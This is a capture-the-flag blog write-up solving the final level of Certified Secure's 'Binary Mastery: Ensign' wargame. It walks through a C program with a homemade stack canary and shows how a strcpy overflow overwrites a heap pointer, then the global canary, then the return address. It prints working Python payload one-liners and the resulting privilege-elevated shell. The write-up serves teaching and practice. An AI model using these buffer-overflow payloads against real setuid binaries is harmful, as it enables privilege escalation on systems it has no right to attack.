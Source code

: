 ```yaml
---
title:  "[CTF] Binary Master Ensign - 5"
---
```


![Logo](/assets/images/belts-blue.png)


In this post we'll continue with level5, the last one from **Certified Secure Binary Mastery**, [Ensign](https://www.certifiedsecure.com/certification/view/37). 
This time we will be dealing again with more buffer overflow issues but we'll have to defeat a homemade implementation of buffer overflow detection. This is the most interesting level so far and it hides yet another logical vulnerability that will allow us to defeat the random stack canary.

To review the previous levels, check the links below:
* [Binary Master: Ensign - Level 1]({{ site.baseurl }}{% post_url 2016-01-07-binary-master-ensign-1 %})
* [Binary Master: Ensign - Level 2]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %})
* [Binary Master: Ensign - Level 3]({{ site.baseurl }}{% post_url 2016-01-21-binary-master-ensign-3 %})
* [Binary Master: Ensign - Level 4]({{ site.baseurl }}{% post_url 2016-01-28-binary-master-ensign-4 %})

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level5@hacking.certifiedsecure.com -p 8266
level4@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '16.04.2 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level5
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level5
```

NX is disabled and again there is no stack canary. Why enable the stack cookie when we can do it ourselves, right?. Let's verify whether the stack is executable:

```
$ readelf -lW level5 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. Also remember from the previous levels that ASLR is disabled on the system and all the addresses are static.

## 1 - Vulnerability

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int canary;

void __attribute__ ((constructor)) generate_canary() {
        FILE* fp = fopen("/dev/urandom", "r");
        fread(&canary, 4, 1, fp);                                [1]      
}

void hello(char* name) {
        int cookie = canary;
        int i = 0x12345;
        char* msg = malloc(128);
        char buf[12];

        strcpy(buf, name);                                       [4]
        sprintf(msg, "%s, it's good to see you!\n", buf);        [5]

        printf("%s", msg);

        if (cookie != canary) {                                  [3]        
                printf("*** stack smashing detected ***\n");

                abort();
        }
}

int main(int argc, char** argv) {
        if (argc != 2) {
                printf("Usage: %s <name>\n", argv[0]);

                return -1;
        }

        hello(argv[1]);                                          [2]

        return 0;
}
```

First let us understand how the program works:
* We have one constructor that generates a random 4 bytes canary by reading **/dev/urandom** (**[1]**)
* The **Main** function accepts one input parameter which is passed to the **hello** function (**[2]**).
* The **hello** function assigns the value of the canary to the first variable on the stack - **cookie**. 
* In case any buffer overflow would try to overwrite the return address, it would have to overwrite also the cookie. But this would trigger a program termination with an error (**[3]**). Not good.

Now let's see how we can break it. Again a stack layout of the function is very useful. We need to understand where each variable is located and which ones we can overwrite. Below I've renamed the variables in IDA to reflect the source code from level5.c:

![Stack layout](/assets/images/bm5-1.png)

* The **strcpy** call at **[4]** can overwrite the address of the newly allocated memory block in **msg**, which is located immediately after the buffer.
* The **sprintf** call at **[5]** will write from **buf** to the address we've just overwritten by the call before.
* Basically we have a primitive that allows us to overwrite an arbitrary memory address.

## 2 - Exploit

### Overwriting the canary

Because the canary is stored in a global variable, in a writeable section (check the permissions of **.bss** section with `readelf -S level5`), we can overwrite it:

![Global variable](/assets/images/bm5-2.png)

Then we'll supply our overwritten canary value in the buffer and carry on the exploitation as usual. Based on the observation above, a simple payload that just overwrites the canary with 0x01020304 would look like this:
```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" |
```

Explanation:
* At offset 12 in the payload we place the address that will overwrite (at **[4]**) the pointer generated by **malloc**
* First 4 bytes of the payload will be written to that address at **[5]**

We can test this in GDB and make sure we got this first step right:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08"')
```

### Overwriting the return address

Building on the findings from the previous point, the next payload achieves full control of EIP, without triggering the error message:

* Overwrites the canary, as above
* Sends a buffer with the correct overwritten canary value, which will overwrite the **cookie** variable
* Overwrites the return address from **hello** function with "XXXX"

```
| "\x04\x03\x02\x01" | JUNK (8 bytes) | "\x40\xa0\x04\x08" | JUNK (4 bytes) | "\x04\x03\x02\x01" | JUNK (12 bytes) | RET | 
```

If it's not clear why, check again the stack layout from the image above. Basically the 4 bytes of junk represents the **i** variable, next we have the value that will overwrite **cookie** (has to be the same as the canary), 12 more junk bytes then the value for the return address.

Again, test this first in GDB:
```bash
gdb-peda$ run  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" + "\x01\x02\x03\x04" + 12*"A" + "XXXX"')
```

### Shellcode

In this case we can use the same approach as for levels 1-3 and place a shellcode spawning /bin/dash into an environment variable. Check [level1](https://livz.github.io/2016/01/07/binary-master-ensign-1.html) for more details.

## 3 - Profit

```
$ /levels/level5  $(python -c 'print "\x04\x03\x02\x01" + "A"*8 + "\x40\xa0\x04\x08" + "JUNK" +  "\x04\x03\x02\x01" + 12*"A" + "\xd6\xd8\xff\xff"')
AAAAAAAA@JUNKAAAAAAAAAAAA���, it's good to see you!
$ id
uid=1006(level5) gid=1006(level5) euid=1007(level6) groups=1007(level6),1006(level5)
$ /home/level6/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved the last level!. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level5 @ binary mastery ensign)
   * the exploit
```

This was the last level in this challenge set. Next set of levels, [Binary Mastery: Lieutenant](https://www.certifiedsecure.com/certification/view/37) will be even more fun :) as they include modern day vulnerabilities and mitigation techniques. In the [next part]({{ site.baseurl }}{% post_url 2016-02-16-binary-master-lieutenant-1 %}) we'll look at bypassing the **NX** bit using **return to libc** technique.
